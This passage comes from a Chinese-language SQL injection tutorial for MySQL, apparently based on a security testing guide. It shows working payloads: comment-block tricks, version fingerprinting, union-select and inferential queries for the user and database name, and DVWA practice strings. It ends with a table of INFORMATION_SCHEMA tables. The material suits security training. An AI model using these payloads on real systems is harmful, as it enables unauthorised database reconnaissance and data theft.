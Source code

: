 ```
例如：
```1 /*! and 1=0 */```
如果后台运行mysql，那么注释块中的内容会被解释执行。

##### 版本号
有3种方法收集版本信息
- 使用 global variable ```@@version```
- 使用函数 ```VERSION()```
- 使用含有版本号的注释指纹 ```/*!40110 and 1=0*/``` ，这意味着下列语句

```/*!40110 and 1=0*/``` ，这意味着下列语句:
```
if(version >= 4.1.10)
    add 'and 1=0' to the query
```
与之有相同结果的还有：
- 盲注：```1 AND 1=0 UNION SELECT @@version /*```
- 推断注入：```1 AND @@version like '4.0%'```。响应将包含类似```5.0.22-log```的行。

例如DVWA靶机可执行下列语句：
```adf' or 1=1 union select version(),'1 ``` 或 ```adf' or 1=1 union select @@version,'1 ```
结果如下图：
<img src="images/07/mysqli01.png" width="480" >


#####  登录用户

MySQL Server依赖两种用户。
1.USER()：连接到MySQL服务器的用户。
2.CURRENT_USER()：正在执行查询的内部用户。

1和2之间有一些区别。主要的区别在于，匿名用户可以连接（如果允许）任何名称，但MySQL内部用户是一个空名称（''）。另一个区别是，如果未在其他地方声明，则存储过程或存储函数将作为创建者用户执行。可以使用来知道CURRENT_USER。

- In band injection: ```1 AND 1=0 UNION SELECT USER()```

- Inferential injection: ```1 AND USER() like 'root%'```

结果可能包含：```user@hostname```

##### 获取数据库名

mysql有一个内置的函数：```database()```

- In band injection:```1 AND 1=0 UNION SELECT DATABASE()```
- Inferential injection:```1 AND DATABASE() like 'db%'```

结果为数据库名。

##### INFOMATION_SCHEMA
mysql 5.0之后，有了 INFOMATION_SCHEMA ，它可以获取数据中所有的数据库、表、列、存储过程、函数。

|INFOMATION_SCHEMA中的表|描述|
|-|-|
|SCHEMATA	|有 SELECT_priv 权的用户所有的数据库|
|SCHEMA_PRIVILEGES	|The privileges the user has for each DB|
|TABLES	|All tables the user has (at least) SELECT_priv|
|TABLE_PRIVILEGES	|The privileges the user has for each table|
|COLUMNS	|All columns the user has (at least) SELECT_priv|
|COLUMN_PRIVILEGES	|The privileges the user has for each column|
|VIEWS	|All columns the user has (at least) SELECT_priv|
|ROUTINES	|Procedures and functions (needs EXECUTE_priv)|
|TRIGGERS	|Triggers (needs INSERT_priv)|
|USER_PRIVILEGES	|Privileges connected User has|
```